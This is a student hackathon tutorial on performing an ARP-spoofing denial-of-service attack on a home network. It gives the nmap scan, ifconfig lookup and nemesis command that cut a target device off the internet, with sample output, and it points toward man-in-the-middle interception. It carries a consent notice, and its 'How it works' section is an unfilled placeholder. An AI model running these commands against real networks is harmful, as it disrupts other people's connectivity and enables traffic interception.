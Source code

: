 ```yaml
---
layout: default
---
```


**Submission for 2022 NLMUSD Hackathon**  

# Introduction
Hello! I am Diego Contreras from John Glenn High School. I have been programming since I was in middle school, completely self-taught, and have a great deal in experience working with computers. This year's theme is to **teach something we are passionate about**. Personally, I am passionate about **hacking**. Because of how vast the field is, I'll teach you one small attack: `ARP-Spoofed DoS`. This specific attack allows you to completely block a device on a network from accessing the internet for as long as you'd like.

## Notice
***The following should not be tried on a system you do not own or have permission to mess with. In addition, this hack will not work with all routers and devices; Both can possibly have protections against this, making it useless.***

## Requirements
Before getting to the exciting stuff, you'll need the following to perform the attack:
* Have a Linux-based OS (Debian, Fedora, Arch, Ubuntu, Kali, ect.)
* Have *consented* access to a home router (enterprise-level routers have protections against this)
* Know the basics of packets and protocols.
* Know the basics of the command line.
* Have `nmap` installed via your package manager (`sudo apt install nmap` for Debian-based OS)

## How it works
Teach how the attack works


## Performing the attack
To perform this attack, we will be using [nemesis](https://github.com/libnet/nemesis). This tool is used for many things relating to packet creation and formation, but today we will use it to create and spoof ARP packets.

### Step 1
Install [nemesis](https://github.com/libnet/nemesis) by following the instructions in the [README](https://github.com/libnet/nemesis/blob/master/README.md) or getting it from its [releases](https://github.com/libnet/nemesis/releases/tag/v1.8).

After this, get the private IP addresses of every device on your network via `sudo nmap -sn 192.168.1.1/24`. The output will look something like the following:
```
user@hackerman ~> sudo nmap -sn 192.168.1.1/24
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.1
Host is up (0.0054s latency).
MAC Address: F4:69:42:EC:F6:A8 (Unknown)

Nmap scan report for 192.168.1.51
Host is up (0.22s latency).
MAC Address: D2:D5:F5:52:B9:58 (Microsoft)

Nmap scan report for 192.168.1.75
Host is up (0.21s latency).
MAC Address: 80:60:B7:16:90:9B (Samsung)

Nmap scan report for 192.168.1.80
Host is up (0.093s latency).
MAC Address: 64:D2:C4:A5:37:9A (Unknown)

Nmap scan report for 192.168.1.113
Host is up (0.092s latency).
MAC Address: B8:8A:EC:35:F2:7F (Nintendo)

Nmap scan report for 192.168.1.158
Host is up (0.094s latency).
MAC Address: 64:D2:C4:AA:CE:18 (Unknown)

Nmap scan report for 192.168.1.183
Host is up (0.073s latency).
MAC Address: D0:03:4B:CD:57:17 (Apple)

Nmap scan report for 192.168.1.194
Host is up (0.20s latency).
MAC Address: AC:F6:F7:9F:08:E0 (LG Electronics (Mobile Communications))

Nmap done: 256 IP addresses (7 hosts up) scanned in 9.78 seconds
```

This simply lists the MAC Addresses and IP Addresses of every device on the network, with `192.168.1.1` being the IP address of your router. Choose a device and write down its IP and MAC Address. For the sake of this tutorial, I'll use the Nintendo Switch connected with an IP address of `192.168.1.113`. Write this down in addition to the IP of the router mentioned before.


### Step 2
Run `ifconfig`. 

```
user@hackerman ~> ifconfig

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 78674  bytes 11694275 (11.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 78674  bytes 11694275 (11.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

wlp6s0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.189  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 2600:6c50:727f:7680:7528:55d3:dfc:445a  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::52c6:9c5c:6ea0:b821  prefixlen 64  scopeid 0x20<link>
        inet6 2600:6c50:727f:7680::18ad  prefixlen 128  scopeid 0x0<global>
        inet6 2600:6c50:727f:7680:d2d4:a827:bf0f:f9eb  prefixlen 64  scopeid 0x0<global>
        ether 60:14:B3:B9:DE:BD  txqueuelen 1000  (Ethernet)
        RX packets 5729186  bytes 6927109944 (6.9 GB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3893098  bytes 2774117092 (2.7 GB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

This command simply lists the network cards attached to your computer. Write down the MAC address of your computer; In this case it is `60:14:B3:B9:DE:BD` for the MAC Address. In addition, write down the name of the network card. In this case it is `wlp6s0`.

By now, you should have the following:

* Nintendo Switch
	* IP : `192.168.1.113`

* My Computer
	* MAC: `60:14:B3:B9:DE:BD`
	* Network Card: `wlp6s0`

* Router
	* IP: `192.168.1.1`


### Step 3
Here we will run the actual `nemesis` command:

```
user@hackerman ~> sudo nemesis arp -c 10000 -i 1 -v -r -d wlp6s0 -S 192.168.1.1 -D 192.168.1.113 -h $60:14:B3:B9:DE:BD
ARP/RARP Packet Injection -=- The NEMESIS Project v1.8

               [MAC] 60:14:B3:B9:DE:BD > F4:69:42:EC:F6:A8
     [Ethernet type] ARP (0x0806)

  [Protocol addr:IP] 192.168.1.1 > 192.168.1.113
 [Hardware addr:MAC] 60:14:B3:B9:DE:BD > F4:69:42:EC:F6:A8
     [Ethernet type] ARP (0x0806)
        [ARP opcode] Reply
  [ARP hardware fmt] Ethernet (1)
  [ARP proto format] IP (0x0800)
  [ARP protocol len] 6
  [ARP hardware len] 4

Wrote 42 byte ARP packet through linktype DLT_EN10MB.
```

Essentially, this command crafts an ARP packet that fools the Nintendo Switch into thinking the attacking computer is the router. As the attacking computer won't send that packet to the internet, the device no longer has access to the internet. Because the device re-asks the network "Hey, are you *sure* this is the router?" every few seconds, the command keeps sending packets every second to make sure the device has no internet.

If we instead attacked another linux computer, we can run the `arp` command on the victim device **before** and **after** to show how the MAC address changed to that of the attacking computer, where `192.168.1.189` is the IP of the attacking computer:

**BEFORE**
```
user@hackerman ~> arp 
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.1.1              ether   F4:69:42:EC:F6:A8   C                     wlp6s0
192.168.1.189            ether   60:14:B3:B9:DE:BD   C                     wlp6s0
```


**AFTER**
```
user@hackerman ~> arp 
Address                  HWtype  HWaddress           Flags Mask            Iface
192.168.1.1              ether   60:14:B3:B9:DE:BD   C                     wlp6s0
192.168.1.189            ether   60:14:B3:B9:DE:BD   C                     wlp6s0
```

As you can see, the MAC value of the router is the same as the attacking computer after this command, meaning that sending anything to the router is essentially the same as sending it to the attacker, who will do nothing with it thus resulting in no internet. 


## Conclusion
By applying basic knowledge of networking and using a simple tool, it is possible to prevent someone to use to internet. While the applications of this specific attack is underwhelming, the reconnaissance and tools used have several other applications other than this in several other attacks. One such attack is part of a major technique in hacking: Man in the Middle Attacks (MITM). These types of attack use almost the same technique (ARP Poisoning) with a few modifications to listen into conversations between devices, giving you the full picture of what is going on between two devices. In conclusion, with the knowledge you have gained, I hope you are ready to take on bigger, better hacks that don't end you up in jail.
